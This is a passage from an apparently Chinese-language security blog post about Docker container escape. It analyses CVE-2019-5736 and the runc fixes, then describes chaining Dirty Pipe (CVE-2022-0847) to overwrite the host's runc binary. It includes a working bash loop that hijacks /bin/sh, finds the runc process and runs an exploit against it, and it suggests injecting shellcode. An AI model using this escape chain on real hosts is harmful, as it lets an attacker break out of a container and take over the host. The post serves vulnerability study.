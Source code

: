 对于第三步，以大名鼎鼎的 `CVE-2019-5736` 为例，当重定向入口点时，容器内的`/proc/self/exec` 与主记的 `runc` 二进制文件相关联。

因此可以通过在容器内写入该文件描述符实现容器逃逸。

对于 `CVE-2019-5736` 的修复可以参见：[github.com/opencontainers/runc/commit/0a8e4117e7f715d5fbeef398405813ce8e88558b](https://github.com/opencontainers/runc/commit/0a8e4117e7f715d5fbeef398405813ce8e88558b)

<img width="800" src="/img/1674128155.png"><br>

由于篇幅原因这里不跟进 `CVE-2019-5736` 的修复的具体代码，直接看 `git commit` 了解修复逻辑。

可以看到修复逻辑是克隆 `/proc/self/exec` 避免容器内部直接获取 `runC`，然而很快开发者修改了修复逻辑，参见：[github.com/opencontainers/runc/commit/16612d74de5f84977e50a9c8ead7f0e9e13b8628](https://github.com/opencontainers/runc/commit/16612d74de5f84977e50a9c8ead7f0e9e13b8628)

<img width="800" src="/img/1674128209.png"><br>

可以看到开发者认为克隆导致的内存开销太大了，可能造成 `OOM` 或者其他问题，把修复逻辑改成了只读挂载。

这里联想到上文总结的 `脏管道` 的利用条件和利用效果，发现刚好契合。

<img width="1000" src="/img/1674128244.png"><br>

这里的利用主要参考了这里的内容：[securitylabs.datadoghq.com/articles/dirty-pipe-container-escape-poc/](https://securitylabs.datadoghq.com/articles/dirty-pipe-container-escape-poc/)

主机执行 `docker exec -it u1 /bin/sh` 后 `/usr/sbin/runc` 的哈希值变化了，且头部被注入标识。

利用思路也很简单，修改 `CVE-2022-0847` 的 exp，将需要注入的字节改为 shellcode，这里我随便改个标识，然后在容器内找到主机的 `runc` 的 pid 即可，可以参考以下的 `shell` 脚本。

```bash
#!/bin/bash

echo '#!/proc/self/exe' > /bin/sh

echo "Waiting for runC to be executed in the container"

while true ; do
runC_pid=""

while [ -z "$runC_pid" ] ; do
        runC_pid=$(ps axf | grep /proc/self/exe | grep -v grep | awk '{print $1}')
        done

        /exp /proc/${runC_pid}/exe
done
```

## 三、总结

由于 Docker 容器和主机是共享内核的，且目前的 `runc` 是通过挂为只读权限防止逃逸的，对于提权类内核洞来说，这两个限制很容易被绕过。所以虽然容器本身逃逸类的漏洞不多，但提权类的内核漏洞会很可能导致容器逃逸。



<Vssue/>

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2023年1月19日"
    }
  }
</script>
